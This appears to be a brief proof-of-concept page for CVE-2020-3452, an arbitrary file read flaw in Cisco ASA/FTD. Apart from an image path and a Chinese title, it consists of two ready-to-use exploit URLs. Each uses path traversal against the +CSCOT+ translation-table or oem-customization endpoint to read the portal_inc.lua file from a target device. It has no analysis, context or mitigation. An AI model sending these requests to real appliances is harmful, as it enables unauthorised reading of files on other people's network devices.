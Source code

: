 CVE-2020-3452：Cisco_ASAFTD任意文件读取漏洞  

POC:one:

```
For example to read "/+CSCOE+/portal_inc.lua" file. https://<domain>/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
```







POC:two:

```
https://<domain>/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua
```

